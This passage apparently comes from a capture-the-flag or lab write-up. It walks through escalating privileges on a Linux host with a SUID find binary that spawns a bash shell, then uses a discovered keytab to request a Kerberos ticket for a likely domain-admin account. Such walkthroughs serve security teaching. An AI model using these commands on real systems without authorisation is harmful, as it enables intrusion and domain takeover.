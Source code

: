 <br/>

As shown, there is a keytab file in the path `/home/support@operations.atomic.site/adm_domain.keytab`

<br/>

----

## Privilege Escalation to support

Since a `find` with SUID is found, we can use it to escalate our privilege.


```
/var/lib/jenkins/find . -exec /bin/bash -p \;
```
![picture 48](images/b78c4c2786c205f2d766ec1e7335a01ac5dc7e42cdbd16ff7d4c82c649a9132f.png)  

As shown, we become the support user in the domain.

<br/>

---

## Requests using support keytab

In the previous section, we identified `/home/support@operations.atomic.site/adm_domain.keytab`. Deduced from the name, it is possible to be the `Domain Admin` keytab file (Domain: operations.atomic.site).

<br/>

With the keytab file, we can request for TGT:

```
cd /home/support\@operations.atomic.site/
```


```
kinit adm_domain@OPERATIONS.ATOMIC.SITE -k -t adm_domain.keytab
```
* Note that the `@` part should be in CAPITAL LETTERS.

![picture 49](images/6b57b5a935649c37c2e83a3124b4106837e2fc8be6cbad0194d6b4d513363d22.png)  
